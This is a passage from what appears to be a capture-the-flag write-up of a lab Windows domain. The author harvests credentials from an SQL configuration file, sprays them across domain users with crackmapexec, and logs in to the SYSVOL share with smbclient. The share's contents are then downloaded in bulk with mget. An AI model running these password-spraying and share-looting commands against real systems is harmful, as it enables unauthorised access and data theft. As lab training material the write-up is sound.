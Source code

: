 And further Enumeration
![[Pasted image 20240621202844.png]]

Got Some sensitive info from **sql-Configuration.INI**
![[Pasted image 20240621203104.png]]

I have saved user and passwords in a file 
![[Pasted image 20240621204347.png]]

I tried the creds **sql_svc:IL0v3ErenY3ager** but it not worked and also **sql_svc:t3mp0r@ryS@PWD**, no luck
```
crackmapexec smb 10.10.11.5 -u sql_svc -p 'IL0v3ErenY3ager'  --shares
```
![[Pasted image 20240621204624.png]]

```
crackmapexec smb 10.10.11.5 -u sql_svc -p 't3mp0r@ryS@PWD'
```
![[Pasted image 20240621204602.png]]


So I'm going to spray this passwords on all user in the domain

Will try this with Crackmapexec
```
crackmapexec smb 10.10.11.5 -u users.txt -p pass.txt --shares --continue-on-success
```
![[Pasted image 20240621204748.png]]
Got it....!
Found one valid creds **mikasaAckerman:IL0v3ErenY3ager**

```
crackmapexec smb 10.10.11.5 -u mikasaAckerman -p IL0v3ErenY3ager --shares
```
![[Pasted image 20240621204944.png]]

Finally able to get some info in SYSVOL share
```
smbclient //10.10.11.5/SYSVOL -U 'DC//mikasaAckerman%IL0v3ErenY3ager'
```
![[Pasted image 20240621211050.png]]

There is some more files in freelancer, Will get them all
```
recurse ON
prompt OFF
mget *
```
![[Pasted image 20240621211939.png]]

Will Analyse the files now, Nothing usefull
